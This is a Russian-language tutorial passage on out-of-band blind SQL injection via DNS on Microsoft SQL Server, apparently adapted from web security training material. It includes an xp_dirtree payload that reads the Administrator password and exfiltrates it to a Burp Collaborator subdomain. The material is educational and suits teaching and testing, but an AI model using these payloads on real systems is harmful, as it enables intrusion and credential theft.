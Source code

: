 Приложение может выполнять запрос в асинхронно. Т.е приложение продолжает рпабоать с пользователем в одном потоке, а SQL запрос выполняет в другом. Ответ приложения не зависит от запроса, возвращающего какие-либо данные, от возникшей ошибки базы данных или от времени, затраченного на выполнение запроса. В этом случае классические методы не сработают, но это не значет, что он не уязвим.

В этой ситуации часто можно воспользоваться уязвимостью "[[Blind SQL injection |слепого внедрения SQL]]", инициируя внеполосное сетевое взаимодействие с системой, которую вы контролируете. Они могут запускаться на основе введенного условия для вывода информации по частям за раз. Что более удобно, данные могут быть отфильтрованы непосредственно в рамках сетевого взаимодействия.


## Использование слепой SQL-инъекции с использованием внеполосных методов (OAST)

Для этой цели можно использовать различные сетевые протоколы, но обычно наиболее эффективным является [[DNS]] (служба доменных имен). Многие производственные сети допускают свободный выход DNS-запросов, поскольку они необходимы для нормальной работы производственных систем.

Методы запуска DNS-запроса зависят от типа используемой базы данных. Например, следующие входные данные на Microsoft SQL Server могут использоваться для запуска DNS-поиска в указанном домене.:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

Вы можете использовать [[Burp Collaborator]] для создания уникального поддомена и опроса сервера Collaborator для подтверждения, когда происходят какие-либо запросы DNS.

После подтверждения способа запуска внеполосных взаимодействий вы можете затем использовать внеполосный канал для извлечения данных из уязвимого приложения. Например:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

Этот ввод считывает пароль для `Administrator` пользователя, добавляет уникальный поддомен Collaborator и запускает поиск в DNS